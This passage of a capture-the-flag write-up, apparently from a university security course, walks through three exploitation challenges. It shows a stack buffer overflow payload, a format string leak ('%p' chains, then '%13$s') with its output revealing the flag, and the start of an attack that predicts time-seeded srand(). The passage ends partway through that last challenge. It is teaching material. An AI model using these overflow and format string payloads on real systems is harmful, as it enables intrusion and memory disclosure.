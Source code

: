 The `PAYLOAD` is as follows. Script in `xpl.py`.

```Python
PADDING =  b'A'*(32+8)
RETURN_ADDRESS = 0x004005b8
PAYLOAD = PADDING +  p64(RETURN_ADDRESS)    # p64 converts an integer to 8-byte little endian bytestring format
r.sendline(PAYLOAD)
```

### D.2 CustomCat (8 Points)

The vulnerability here is now a [format string exploit](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html), mainly due to the one line.

```C++
printf(input_filename);
```

`input_filename` is controlled by us, so we can leak the information on the stack! Using payload `%p.%p.%p.%p.%p.%p.%p` does give some addresses, but none of them match the given address printed by the program. Too long a payload and the program ends up crashing after printing the addresses. So we have to change the method, by accessing the addresses via their index i.e. `%i$p` where `i` is the integer index. We find that `i = 13` has the correct address, so then giving the payload of `%13$s` would give the flag. The Python script used is in `xpl.py`.

```bash
$ python3 xpl.py # i = 13
...
Enter a filename to print the contents of the file => 0x55ea5ab66260.0x55ea596f5630.0x7f53967f1bf7.0x1. cannot be found in the current directory.
Hint: Flag is at 0x55ea5ab66260
...
$ python3 xpl.py # PAYLOAD = b'%13$s'
...
Enter a filename to print the contents of the file => cs2107{4mat_y0uR_stRinGs_706c73}
 cannot be found in the current directory.
Hint: Flag is at 0x55cd52491260
...
```

### D.3 Vegas (12 Points)

[A write-up for almost the same exploit can be found on GitHub (thank you superkojiman).](https://github.com/VulnHub/ctf-writeups/blob/master/2016/tjctf/guess.md) Using basically the same logic, we just force `srand()` to get called multiple times by resetting it. At the same time, we run our own C program to get the output from the Python script using `subprocess`, and the values will match.

Vulnerable `srand()` in `reset()`:

```C++
void reset()
{
    puts("Believe you can change your fate?");
    current_time = time(NULL);
    printf("Tell me your name: ");
    read_string(name, 256);
    srand(current_time);
}
```
